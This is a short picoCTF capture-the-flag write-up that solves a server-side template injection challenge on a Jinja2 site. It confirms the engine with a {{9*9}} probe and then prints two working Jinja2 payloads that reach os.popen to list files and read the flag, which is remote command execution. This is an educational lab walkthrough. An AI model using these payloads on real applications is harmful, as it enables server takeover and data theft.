





# SSTI1

I made a cool website where you can announce whatever you want! Try it out!

> https://play.picoctf.org/practice/challenge/492

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings

# Solve

Based on the name, this is a server side template injection challenge. We try a very common `{{9*9}}` ssti test to see if the server is jinja2 (python) or not.





Because the expression evaluated to 81, aka 9 * 9, we know that the server is using jinja2. We use this trick to do listing on the server

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```





We see a file named flag, lets cat that using this

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```


